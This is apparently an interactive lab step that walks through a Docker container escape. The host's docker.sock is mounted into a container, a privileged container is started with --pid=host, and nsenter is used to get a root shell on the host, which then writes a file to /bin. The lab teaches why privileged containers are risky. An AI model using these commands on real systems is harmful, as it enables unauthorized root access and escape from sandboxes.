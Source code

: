 In this step you will walkthrough a container breakout example.

## Initial Container

Create a container based on debian and install the docker cli.

Check the current host `hostname`{{execute}}

> The output is `host01`, this shows that you are executing commands on the host used in this scenario.

Start the container `docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock debian:buster sh`{{execute}}

> The container is not running with any special privileges, it does mount the docker.sock from the host though. The **-it** flag starts the container interactively.

Check the current host `hostname`{{execute}}

> The output will be a 12 character hexidecimal string, this shows that you are executing commands within the container.

Install the pre-requisites required for the docker CLI

```
apt-get update && apt-get install -y \
  apt-transport-https \
  ca-certificates \
  curl \
  gnupg2 \
  libcurl4-openssl-dev \
  lsb-release
```{{execute}}

Install the docker CLI

```
curl -fsSL https://download.docker.com/linux/debian/gpg | gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg \
  && echo "deb [arch=amd64 signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/debian $(lsb_release -cs) stable" | tee /etc/apt/sources.list.d/docker.list > /dev/null \
  && apt-get update \
  && apt-get install -y \
  docker-ce-cli
```{{execute}}

> Now you can execute docker commands from within the container.

## Privileged Container

List the running containers `docker ps`{{execute}}

> This shows that there is already one running container, it is the container you are executing the commands in.

Start another container `docker run --rm --privileged --pid=host -it debian:buster sh`{{execute}}

Check the hostname and current user `hostname; whoami`{{execute}}

> This shows that you are now executing in a different container as the root user. The container was started with the **--privileged** flag which grants all capabilities to the container, it also lifts all the limitations enforced by the device cgroup controller. In other words, the container can now do almost everything that the host can do. It also has the **--pid=host** flag which allows the container to use the process tree of the host.

Switch to the PID 1 isolation context and create a shell `nsenter -t 1 -m -u -n -i sh`{{execute}}

Check the hostname and current user again `hostname; whoami`{{execute}}

> You now have an interactive shell with root access on the host machine.

Create a file in the /bin directory on the host `echo "Houdini was here" >/bin/escaped`{{execute}}

Exit out of the interactive shell `exit`{{execute}}

Exit out of the privileged container `exit`{{execute}}

Exit out of the initial container `exit`{{execute}}

> You are now back on the host again.

## Compromised Host

Check the hostname `hostname`{{execute}}

Check the running containers `docker ps -a`{{execute}}

Check the file in the bin directory `cat /bin/escaped`{{execute}}

> In this step you have seen how unrestricted mounts and privileged containers could be exploited to give root privileges on the host. These security flaws are one of the reasons why Docker is no longer used as the container runtime in Kubernetes. It is also common to find policies that prevent running as root, running privileged containers or mounting from the host.
